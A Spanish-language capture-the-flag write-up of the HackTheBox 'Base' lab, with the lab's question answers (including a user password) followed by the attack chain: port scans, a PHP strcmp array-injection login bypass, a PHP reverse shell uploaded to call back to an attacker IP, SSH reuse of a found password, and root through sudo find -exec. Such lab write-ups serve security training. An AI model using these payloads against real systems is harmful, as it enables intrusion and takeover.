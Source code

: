 1)¿Qué dos puertos TCP están abiertos en el host remoto?
	22,80

2)¿Cuál es la ruta relativa en el servidor web para la página de inicio de sesión?
	/login/login.php

3)¿Cuántos ficheros hay en el directorio «/login»?
	3
	![[Base5.png]]

4)¿Cuál es la extensión de un archivo swap?
	.swp
	
5)¿Qué función PHP se utiliza en el código backend para comparar el nombre de usuario y la contraseña enviados por el usuario con el nombre de usuario y la contraseña válidos?
	strcmp()

6)¿En qué directorio se almacenan los archivos cargados?
	\_uploaded

7)¿Qué usuario existe en el host remoto con un directorio home?
	john

8)¿Cuál es la contraseña del usuario presente en el sistema?
	thisisagoodpassword

9)¿Cuál es la ruta completa del comando que el usuario john puede ejecutar como usuario root en el host remoto?
	/usr/bin/find

10)¿Qué acción puede utilizar el comando find para ejecutar comandos?
	exec


-----
# [[Reconocimiento de OS(Sistema operativo) y puertos abiertos con NMAP]]

```shell
ping -c 1 10.129.95.184
nmap -p- --open -vvv --min-rate 5000 -sS -n -Pn 10.129.95.184 -oG allPorts
extractPorts allPorts
nmap -sCV -p22,80 10.129.95.184 -oN target
```


![[Base1.png]]
![[Base2.png]]
*TTL:* Maquina linux
*Puertos:*
`22`SSH
`80`HTTP

--------
# [[Enumeracion con pequeño script de NMAP y Whatweb-wappalyzer]]

```shell
whatweb http://10.129.95.184/
nmap --script http-enum -p80 10.129.95.184 -oN webScan
```
![[Base3.png]]![[Base4.png]]
Nos informa que es un apache, tambien el dominio base.htb

-------
# [[Array Injection]]
Entramos a la parte de login y vemos que esta dentro de un directorio /login

![[Base7.png]]
Asi que vamos a ese directorio y descargamos el archivo .swp(Explicado en notas que son los .swp)
![[Base6.png]]
Ahora si cateamos el archivo nos va a aparecer que es un binario. Lo que vamos a hacer es abrirlo con ``nvim login.php.swp``

![[Base8.png]]
y vemos que tiene muchas cadenas que no se pueden leer
![[Base9.png]]
Asi que vamos a usar el comando [[strings]] para sacar las cadenas legibles y el output lo voy a poner en un archivo que se llama loginlimpio.txt `strings login.php.swp > loginlimpio.txt`
![[Base10.png]]
y ahora lo abrimos con `cat loginlimpio.txt -l java` 
	Aclaracion: Si bien no es java el lenguaje, usa los colores bastante bien para separarlo y entender mejor el codigo
	
![[Base11.png]]

Despues de analizar el archivo, podemos ver en esta parte que antes de hacer la validacion del usuario y contraseña nos brinda las cookies. Y a la vez por como esta estructurada la comparacion poniendole [] para hacerlo arrays podemos romper la comparativa y ingresar con cualquier usuario y contraseña
```
header("Location: /upload.php");
  72   │             $_SESSION['user_id'] = 1;
  73   │         if (strcmp($password, $_POST['password']) == 0) {
  74   │     if (strcmp($username, $_POST['username']) == 0) {
  75   │     require('config.php');
  76   │ if (!empty($_POST['username']) && !empty($_POST['password'])) {
  77   │ session_start();
```

Interceptamos con burpsuite la peticion

![[Base12.png]]
Y cambiamos la ultima linea por `username[]=test&password[]=pass` 
Asi ganamos acceso a la pagina upload.php
![[Base13.png]]

----------
# [[Arbitrary file upload]]

Con el diccionario de seclists no vamos a encontrar nunca el directorio donde se suben los archivos que es http://10.129.95.184/_uploaded/ ya que la palabra uploaded no aparece en los diccionarios. Para poder encontrarla podemos añadir esta palabra, asi ya lo tenemos en un futuro con el comando `echo "_uploaded" | sudo tee -a /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt` que va a añadir en la ultima linea la palabra

Vamos a usar [[Gobuster]] para enumerar directorios `gobuster dir -u http://10.129.95.184/ -w /usr/share/SecLists/Discovery/Web-Content/directory-list-2.3-small.txt --add-slash -t 60`
![[Base15.png]]
### Sacamos una [[Reverse shell]] 
Creamos un archivo con nombre rever.php
```php
<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.16.21/443 0>&1'");
?>
```

Mientras estamos en escucha con [[nc -nlvp 443]], vamos a abrir el archivo desde http://10.129.95.184/_uploaded/rever.php
![[Base14.png]]
Y ya estamos adentro de la maquina

--------------
# [[Tratamiento de la TTY]]

-------
# Escalada al usuario john

Buscamos con [[grep]]`grep -riE "password|.*password|password.*" ` desde el directorio /var/www/html/login
Y encontramos la contraseña *thisisagoodpassword*
![[Base16.png]]

### Conexion por [[ssh]]
```shell
ssh john@10.129.95.184 -p 22
```
![[Base18.png]]

------
# Escalada de privilegios a root con [[Abuso de Sudo]]

Con `sudo -l` vemos que el binario /usr/bin/find se ejecuta como root
![[Base19.png]]

[Articulo de gtfobinds donde se saco esto](https://gtfobins.github.io/gtfobins/find/#suid)
```
sudo /usr/bin/find . -exec /bin/bash -p \; -quit
```
![[Base20.png]]

----------
# Notas

Los archivos `.swp` los crea Vim para guardar cambios temporales mientras editás, permitiendo recuperar datos si se cierra inesperadamente. También evitan que se edite el mismo archivo desde dos lugares a la vez. Podés borrarlos si estás seguro de que Vim ya no está usando el archivo.


---------
# Creditos
Writeup oficial HackTheBox
